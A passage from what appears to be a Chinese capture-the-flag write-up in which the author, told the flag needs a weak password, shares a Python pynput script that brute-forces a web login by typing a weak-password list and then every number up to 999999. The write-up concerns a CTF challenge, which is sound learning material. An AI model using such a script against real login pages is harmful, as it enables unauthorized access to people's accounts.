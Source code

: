 > 还有就是社工的对象是这个账号不是社工我
>
> 【最屑出题人】19-arttnba3 2020/9/19 21:34:54
> ![image-20201025171440080](http://framist-bucket-openread.oss-cn-shanghai.aliyuncs.com/img/2023/08/15/20230815210613-6.png)

~~啊啊啊方向错了~~

开 hint，提示“弱口令”



可我已经试了好久的弱密码了

QAQ

因为网站试密码不需要验证码也（可能）没有次数限制，还能通过浏览器功能关闭密码错误的弹窗，简单写了一个按键精灵来试密码：

```python
from pynput.mouse import Button, Controller
from pynput.keyboard import Key, Controller
import time

passwords = """
# 这里放常用弱口令字典
"""

def main():
    listPassword = []
    strs = ''
    for i in passwords:
        if(i == '\n'):
            listPassword.append(strs)
            strs = ''
        else:
            strs = strs + i
    keyboard = Controller()
    for i in range(0,5):
        print(5 - i)
        time.sleep(1)

    for i in listPassword:
        print(i)
        keyboard.type(i)
        keyboard.press(Key.enter)
        keyboard.release(Key.enter)
        
        for i in range(0,15):
            keyboard.press(Key.backspace)
            keyboard.release(Key.backspace)

    for i in range(999999):
        print(str(i))
        keyboard.type(str(i))
        keyboard.press(Key.enter)
        keyboard.release(Key.enter)
        
        for i in range(0,15):
            keyboard.press(Key.backspace)
            keyboard.release(Key.backspace)

if __name__ == '__main__':
    main()
```
